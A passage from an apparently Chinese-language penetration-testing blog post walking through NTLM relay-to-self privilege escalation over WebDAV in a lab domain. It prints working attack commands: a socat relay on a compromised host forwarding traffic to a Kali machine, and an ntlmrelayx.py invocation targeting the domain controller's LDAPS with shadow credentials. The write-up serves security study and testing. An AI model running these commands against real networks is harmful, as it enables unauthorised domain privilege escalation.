 假设我们已经获取了一个域标准用户（Pentest\Marcus）权限，并成功登陆了客户端主机 WIN10-CLIENT1。然后我们通过执行 StartWebClientService 在 WIN10-CLIENT1 上启动 WebClient 服务，如下图所示。

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515020421121.png)

由于内网主机 WIN10-CLIENT1 无法出网，因此无法直接通过代理执行 NTLM Relay，不过我们可以通过已经沦陷的 WEB01 作为中转。如下所示，在 Ubuntu 上执行以下命令，将 WEB01 上 8080 端口接收到的数据转发到 Kali Linux 上的 80 端口：

```bash
socat tcp-listen:8080,reuseaddr,fork tcp:192.168.2.148:80
```

然后，我们在 Kali Linux 上启动 ntlmrelayx.py 监听，等待受害机连接，如下图所示。

```bash
proxychains4 python3 ntlmrelayx.py -domain pentest.com -t ldaps://dc01.pentest.com --shadow-credentials --shadow-target win10-client1\$
```

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220515103933264.png)
